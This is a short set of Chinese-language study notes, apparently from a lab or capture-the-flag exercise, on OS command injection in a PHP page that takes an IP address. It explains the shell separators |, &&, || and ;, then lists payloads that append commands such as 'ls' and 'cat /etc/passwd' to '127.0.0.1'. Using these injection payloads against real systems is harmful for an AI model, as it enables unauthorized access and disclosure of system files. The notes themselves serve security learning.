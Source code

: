 
---

#### 重要函式
- stristr(string,search,before_search)
- php_uname(mode)


---

#### 發現可以沒有輸入內容判斷
- Linux指令可以一行多命令
    - 試試看pipe ` |`

![](https://i.imgur.com/5w4gjuU.png)


---

#### 比較 | && || ;
- &&
    - (第2條命令只有在第1條命令成功執行之後才執行。)
- ||
    - (只有||前的命令執行不成功時，才執行後面的命令。)
- ;
    - (順序執行多條命令，當;號前的命令執行完（不管是否執行成功），才執行;後的命令)


---

#### Payload


```
127.0.0.1

127.0.0.1 ; ifconfig

127.0.0.1 ; ls

127.0.0.1 ; cd 

127.0.0.1 ; cd  /var/www
 
127.0.0.1 ; cat index.php

127.0.0.1 ; cat /etc/passwd 
```

---

![](https://i.imgur.com/1SoEAAT.png)


---
